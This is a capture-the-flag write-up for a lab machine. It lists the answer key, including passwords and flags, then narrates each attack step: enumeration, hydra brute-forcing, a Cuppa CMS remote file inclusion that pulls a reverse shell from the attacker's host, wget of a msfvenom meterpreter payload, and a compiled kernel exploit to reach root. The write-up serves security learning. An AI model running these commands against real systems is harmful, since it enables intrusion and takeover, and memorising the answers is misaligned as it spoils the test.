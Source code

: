 # Questions

1. What is Miles password for his emails?
	1. cyborg007haloterminator
2. What is the hidden directory?
	1. /45kra24zxs28v3yd
3. What is the vulnerability called when you can include a remote file for malicious purposes?
	1. remote file inclusion
4. What is the user flag?
	1. 7ce5c2109a40f958099283600a9ae807
5. What is the root flag?
	1. 3f0372db24753accc7179a282cd6a949

# Write-up

## Enumeration

To start, we want to get as much information on the target system as possible. Navigating to the IP, we see that there's a webserver running that we can fuzz for different directory endpoints. It's also worth checking for other open ports or running services
``` bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.4.188/FUZZ -o ffuf.json
sudo nmap -sV -sC --version-all -T4 -v --script=vuln $TARGET_IP -oN nmap.txt
smbmap -H 10.10.4.188 -g smbmap.txt -r /
```

Running the above commands, we see that the webserver is running on ubuntu and using apache 2.4.18; The website itself has  a couple of interesting routes, but the only one that we have access to currently, outside of the deafult, is "/squirrelmail" Noticing that there's an SMB share running we can also check for what we have access to there, in which case we have read only access with an anonymous login and there's 3 other shares availble, with the one of interest being for the user milesdyson.

Navigating to the afformentioned route, we see that it's running squirrelmail version 1.4.23. We can also access the anonymous share; doing so we see that there are 2 different files of interest, attention.txt and log1.txt; copying the files over and viewing their contents, log1 seems to contain a list of passwords most likely for the user Miles Dyson.

## Exploitation

We can try these passwords  on the SMBshare, squirrelmail, or over ssh to see if we can gain access to anything in the system. Starting with squirrel mail, when we fill out the form the site sends a POST request to "/squirrelmail/src/redirect.php" using hydra we can brute force the login using the command below.

`hydra -l milesdyson -P ./log1.txt "http-form-post://10.10.4.188:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:user or password incorrect" -o hydra.txt`

Running the command gives us the login milesdyson:cyborg007haloterminator

Once we've logged into the web server, we see that there's a password reset email sent to the user. We can use this password, )s{A&2Z=F^n_E.B\` to access the user's SMBshare.

`smbshare -U milesdyson //SKYNET/milesdyson -I $TARGET_IP`

going through the files of the smb share, we see a file called important under notes. Reading from the file gives a CMS endpoint "/45kra24zxs28v3yd" because we have a new endpoint, we want to enumerate that endpoint to see if there are any interesting sub directories. In this case we can re-run the earlier ffuf command but fuzzing a different directory. 

`ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.216.94/45kra24zxs28v3yd/FUZZ -o ffuf-2.json`

doing so gives us a new /administrator route which contains a cuppa cms login page. Searching on exploit db, we see that there's a RFI vulnerability in cuppa cms that we can exploit to gain a reverse shell.

Downloading a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), starting a nc listener and webserver then navigating to "/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.50.190:9000/shell.php" executes our payload giving us a reverse shell and letting us read the user flag.

```bash
python3 -m http.server 9000
nc -nlvp 5000
cat /home/milesdyson/user.txt
```

Now that we have a reverse shell, we can attempt to upgrade to a meterpreter shell. All we need to do is generate the payload using mfsvenom then download and run it on the target system.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=tun0 LPORT=8080 -f elf -o shell.elf
milesdyson@target $ wget http://ATTACKER_IP:9000/shell.elf
msf6> use exploit/multi/handler
msf6> set PAYLOAD linux/x86/meterpreter/reverse_tcp
msf6> set LHOST tun0
msf6> set LPORT 8080
msf6> run
```

## Privilege Escalation

Now that we have a more stable session, we can attempt to escalate our privileges to root. Uploading and running something like [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) will give a lot of information on potential vectors for us to do just that.

We can also search for the ubuntu version directly in exploitdb to see if there are any privilege escalation vulnerabilities. In this case, searching for 4.8.0-58 gives us one potential script.

``` bash
cp /usr/share/exploitdb/exploits/linux/local/43418.c pwn.c
meterpreter> upload pwn.c
meterpreter> shell
www-data@target $ gcc pwn.c -o pwn
www-data@target $ ./pwn
root@target $ cat /root/root.txt
```

Uploading the script to the target machine, compiling it using gcc and executing it gives us a root shell. Now that we have root all we need to do is read from the root flag located at /root/root.txt
